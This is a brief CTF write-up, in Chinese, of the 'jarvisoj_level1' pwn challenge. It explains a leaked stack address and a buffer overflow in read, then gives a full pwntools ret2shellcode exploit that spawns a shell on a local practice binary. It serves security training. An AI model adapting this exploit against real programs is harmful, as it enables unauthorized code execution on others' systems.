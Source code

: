 ```yaml
---
title: 'jarvisoj_level1'
date: 2024-01-18 13:00:00 +0800
categories: [ret2shellcode]
tags: [ctf,pwn]
---
```

![image-20240118234607205](../assets/img/old_imgs/image-20240118234607205.png)

- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```



